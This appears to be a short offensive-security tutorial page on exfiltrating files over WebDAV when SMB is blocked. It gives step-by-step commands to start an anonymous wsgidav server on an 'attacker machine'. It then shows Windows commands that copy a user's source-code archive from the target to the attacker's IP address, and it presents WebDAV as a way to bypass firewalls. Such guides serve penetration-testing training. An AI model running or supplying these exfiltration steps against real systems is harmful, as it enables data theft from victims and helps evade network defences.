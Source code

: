 
In many networks, **SMB (port 445)** is blocked for security.  
When that happens, **WebDAV** (an HTTP/HTTPS-based file-sharing method) is the perfect workaround.

---

## 1. Why WebDAV?

- WebDAV = **Web Distributed Authoring and Versioning**
    
- Works over **HTTP/HTTPS**, so it often bypasses firewalls.
    
- Compatible with Windows' built-in **Mini-Redirector driver** — no extra tools needed.
    

---

## 2. Set Up a WebDAV Server (Attacker Machine)

### Step 1: Install WebDAV Python Tools

```bash
sudo pip3 install wsgidav cheroot
```

---

### Step 2: Start the WebDAV Server

```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

**Explanation:**

- `--host=0.0.0.0` → Listen on all interfaces
    
- `--port=80` → Serve on HTTP port 80
    
- `--root=/tmp` → Share `/tmp` directory
    
- `--auth=anonymous` → Allow access without credentials
    

---

## 3. Access the Share from Windows (Target Machine)

List the contents of the shared directory:

```cmd
dir \\192.168.49.128\DavWWWRoot
```

**Note:**  
`DavWWWRoot` is a special Windows keyword for the WebDAV root.

Or browse directly to a specific folder:

```cmd
dir \\192.168.49.128\sharefolder
```

---

## 4. Upload a File from Windows (Target Machine)

Upload a file into the root of the WebDAV share:

```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.128\DavWWWRoot\
```

Or upload into a specific subfolder:

```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.128\sharefolder\
```

---


